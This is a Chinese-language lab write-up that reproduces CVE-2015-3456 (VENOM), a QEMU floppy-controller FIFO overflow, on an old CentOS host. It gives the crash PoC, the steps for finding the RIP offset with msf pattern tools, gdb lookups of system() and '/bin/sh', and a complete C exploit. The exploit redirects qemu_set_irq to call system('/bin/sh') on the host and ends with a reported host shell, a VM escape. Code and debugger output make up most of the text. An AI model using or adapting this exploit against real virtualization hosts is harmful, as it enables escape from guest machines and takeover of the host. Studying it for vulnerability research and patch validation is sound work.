# CVE-2015-3456 漏洞复现

| 项目 | 内容 |
|------|------|
| 漏洞描述 | qemu kvm CVE-2015-3456 (VENOM) |
| 宿主机版本 | CentOS Linux release 7.9.2009 (Core) |
| QEMU 版本 | QEMU emulator version 1.5.3 |
| QEMU 虚拟机版本 | debian_squeeze_amd64_standard.qcow2 |
| 开始时间 | 02/24/2021 |
| 最终完成 | 02/25/2021 |

## 0x00 前言

本来打算分析 CVE-2020-14364，但是因为利用点存在溢出了，而且没法控制，所以把 CVE-2015-3456 分析了，经过梳理之后的一遍了解，再分析 14364。CVE-2015-3456 是一个经典的软盘驱动漏洞，之前也已经有很多的分析文章，我这里只是简单的复现一下，如果有什么问题，重要时候再看（但我也不确定再看的时候能不能找到，所以算了）。

CVE-2015-3456 虚拟机逃逸的主要目的是利用 `qemu_set_irq` 执行一个 handler 回调函数（本文执行的是 `<system>`），从而在宿主机中运行自己想要的代码。opaque 也就是 `qemu_set_irq` 的参数可操作性很大，因为软盘控制器的FIFO缓冲区存在溢出，而且也不存在什么检查字符（据说有，但我没遇到），"你甚至可以编译一个地址无关的客户机镜像进去然后运行它"。

## 0x01 环境配置

1. 虚拟机启动脚本 `vm.sh`

```bash
gdb --args \
    qemu-system-x86_64 \
    -m 1G \
    -hda debian_squeeze_amd64_standard.qcow2 \
    -net user,hostfwd=tcp::22222-:22 \
    -net nic \
    -netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
    -smp cores=2,threads=1 \
    -enable-kvm \
    -cpu kvm64,+smep
```

2. 启动后可以在宿主机通过 ssh 连接虚拟机
3. 可以通过 scp 传递文件

## 0x02 漏洞复现

### 01. 验证现有 POC

从参考资料1中复制现有 POC 并编译上传。

**现有 POC**

连接到 QEMU 虚拟机，并运行 POC：

```bash
$ gedit cve-2015-3456.poc01.c
$ gcc cve-2015-3456.poc01.c -o exp
$ scp -P 22222 exp root@127.0.0.1:/root/
# Password: root
```

```c
#include <sys/io.h>
#include <stdio.h>

#define FIFO 0x3f5

int main()
{
  int i;
  iopl(3);
  outb(0x08e,0x3f5);
  for(i = 0;i < 10000000;i++)
    outb(0x42,0x3f5);
  return 0;
}
```

```bash
$ ssh -p 22222 root@127.0.0.1
# Password: root
$ ./exp
```

崩溃信息如下：





### 02. 控制 RIP 地址

使用 msf 生成字符串：

```bash
$ msf-pattern_create -l 10000
```



**POC 代码**

```bash
$ gedit cve-2015-3456.test.c
$ gcc cve-2015-3456.test.c -o exp
$ scp -P 22222 exp root@127.0.0.1:/root/
# Password: root
```

```c
#include <sys/io.h>
#include <stdio.h>

// void outb(unsigned char value, unsigned short int port);
// void outsb(unsigned short int port, const void *addr, unsigned long int
// count);

#define FIFO 0x3f5

// buf溢出了，在源文中查找
unsigned char buf[] =  "Aa0...1Mv2M";

int main()
{
    int i;
    iopl(3);
    outb(0x08e,0x3f5);
    for(i = 0;i < 10000;i++)
    {
        outb(0x42,0x3f5);
    }
    outsb(0x3f5, buf, 10000);
    return 0;
}
```

崩溃得到如下的信息：





`ide_ioport_read` 中 opaque 被覆盖，通过 opaque 地址信息来定位。



使用 msf 定位 RIP 和 `ide_ioport_read`：





计算 RIP 所在偏移：

```bash
# 0x7a45347a45337a45
$ msf-pattern_offset -l 10000 -q 7a45347a45337a45
[*] Exact match at offset 3879

# 0x6a43306a
$ msf-pattern_offset -l 10000 -q 6a43306a
[*] Exact match at offset 1831
```

### 03. 完善 POC

**POC 代码**

```
# 3879 - 1831 = 0x800
# 0x5555567b7a38 + 0x800 = 0x5555567B8238
# 0x5555567B8238 + 8 = 0x5555567B8240
# RIP 所在位置为 0x5555567B8238
# RIP之后的位置是 0x5555567B8240
```

```bash
$ gedit cve-2015-3456.poc02.c
$ gcc cve-2015-3456.poc02.c -o exp
$ scp -P 22222 exp root@127.0.0.1:/root/
# Password: root
```

```c
#include <sys/io.h>
#include <stdio.h>

// void outb(unsigned char value, unsigned short int port);
// void outsb(unsigned short int port, const void *addr, unsigned long int
// count);

#define FIFO 0x3f5

int main()
{
    int i;
    iopl(3);
    outb(0x08e,0x3f5);
    for(i = 0;i < 13879;i++)
    {
        outb(0x42,0x3f5);
    }
    outsb(0x3f5, "AAAAAAAA", 8);
    for(i = 0;i < 100;i++)
    {
        outb(0x42,0x3f5);
    }
    return 0;
}
```

查看定位信息：



结果如下所示正确，定位没有问题。

## 0x03 编写 EXP

根据参考资料一，控制可以利用的点：



需要用到如下信息：

```
x/16xw 0x5555567B8238
(gdb) p system
$3 = {int (const char *)} 0x7ffff6be2520 <system>
(gdb) p __libc_start_main
$4 = {int (int (*)(int, char **, char **), int, char **, int (*)(int, char **,
char **), void (*)(void), void (*)(void),
    void *)} 0x7ffff5d28460 <__libc_start_main>
(gdb) find 0x7ffff5d28460,+2200000,"/bin/sh"
0x7ffff5e8dee9
warning: Unable to access 16000 bytes of target memory at 0x7ffff5f12bf1,
halting search.
1 pattern found.
(gdb)
# system 0x7ffff6be2520
# "/bin/sh" 0x7ffff5e8dee9
# RIP之后的位置 0x5555567B8240
```

### 01. 首先验证一下 qemu_set_irq

**C代码**

```bash
$ gedit cve-2015-3456.exp.c
$ gcc cve-2015-3456.exp.c -o exp
$ scp -P 22222 exp root@127.0.0.1:/root/
# Password: root
```

```c
#include <sys/io.h>
#include <stdio.h>

// void outb(unsigned char value, unsigned short int port);
// void outsb(unsigned short int port, const void *addr, unsigned long int
// count);

#define FIFO 0x3f5

int main()
{
    int i;
    iopl(3);
    outb(0x08e,FIFO);
    for(i = 0;i < 13879;i++)
    {
        outb(0x42,FIFO);
    }

#if 1
    // 0x7f ff f6 be 25 20
    // $1 = {int (const char *)} 0x7ffff6be2520 <system>
    outb(0x20,FIFO);
    outb(0x25,FIFO);
    outb(0xbe,FIFO);
    outb(0xf6,FIFO);
    outb(0xff,FIFO);
    outb(0x7f,FIFO);
    outb(0x00,FIFO);
    outb(0x00,FIFO);

    // 0x7f ff f5 e8 de e9
    // 0x7ffff5e8dee9:  "/bin/sh"
    outb(0xe9,FIFO);
    outb(0xde,FIFO);
    outb(0xe8,FIFO);
    outb(0xf5,FIFO);
    outb(0xff,FIFO);
    outb(0x7f,FIFO);
    outb(0x00,FIFO);
    outb(0x00,FIFO);

#endif

    for(i = 0;i < 100;i++)
    {
        outb(0x42,FIFO);
    }

    return 0;
}
```

查看调用栈信息：



```
# 查看调用栈追踪，可以看到调用链是 ide_ioport_read -> qemu_irq_lower -> qemu_set_irq
(gdb) bt

# 查看 irq 中的信息，目的是把 handler 指向 <system>，opaque 指向 "/bin/sh"
# 从下面的截图中可以看到 irq 当前指向的是 <system> 地址
(gdb) p irq[0]

# 确认一下，确实指向的是 <system> 地址
(gdb) x/16xw 0x7ffff6be2520
```

### 02. 完善 POC 为 EXP

**EXP 代码**

```c
#include <sys/io.h>
#include <stdio.h>

// void outb(unsigned char value, unsigned short int port);
// void outsb(unsigned short int port, const void *addr, unsigned long int
// count);

#define FIFO 0x3f5

int main()
{
    int i;
    iopl(3);
    outb(0x08e,FIFO);
    for(i = 0;i < 13879;i++)
    {
        outb(0x42,FIFO);
    }

#if 1
    // 0x5555567B8240
    // 0x55 55 56 7B 82 40
    outb(0x40,FIFO);
    outb(0x82,FIFO);
    outb(0x7B,FIFO);
    outb(0x56,FIFO);
    outb(0x55,FIFO);
    outb(0x55,FIFO);
    outb(0x00,FIFO);
    outb(0x00,FIFO);
#endif

#if 1
    // 0x7f ff f6 be 25 20
    // $1 = {int (const char *)} 0x7ffff6be2520 <system>
    outb(0x20,FIFO);
    outb(0x25,FIFO);
    outb(0xbe,FIFO);
    outb(0xf6,FIFO);
    outb(0xff,FIFO);
    outb(0x7f,FIFO);
    outb(0x00,FIFO);
    outb(0x00,FIFO);

    // 0x7f ff f5 e8 de e9
    // 0x7ffff5e8dee9:  "/bin/sh"
    outb(0xe9,FIFO);
    outb(0xde,FIFO);
    outb(0xe8,FIFO);
    outb(0xf5,FIFO);
    outb(0xff,FIFO);
    outb(0x7f,FIFO);
    outb(0x00,FIFO);
    outb(0x00,FIFO);

#endif

    for(i = 0;i < 100;i++)
    {
        outb(0x42,FIFO);
    }

    return 0;
}
```

编译上传：

```bash
$ gedit cve-2015-3456.exp.c
$ gcc cve-2015-3456.exp.c -o exp
$ scp -P 22222 exp root@127.0.0.1:/root/
# Password: root
$ ssh -p 22222 root@127.0.0.1
# Password: root
$ ./exp
```

最终结果是在宿主机上开启了一个 shell：



完成。

## 0x04 总结

1. 尽管这算该是最简单的软盘驱动漏洞，把版本和环境都调到几年前了，但第一次复现 64 位 linux 的 exploit 还是感到了不少，比如代码的定位，gdb调试等等。
2. 在"控制RIP地址"那一步花了很久，一直没想通过怎么找到软盘的位置，后来根据参考资料5才想到可以根据调用栈追踪来分析。
3. 接下来继续练习不算溢出，之后分析 vmware 的漏洞吧。
4. 截图和 exp 我再验证一下再上传。

## 参考资料

1. VENOM漏洞分析与利用
2. VENOM "毒液"漏洞分析
3. QEMU 下断地址
4. QEMU 虚拟机的下断地址
5. cve-2015-3456漏洞分析与利用
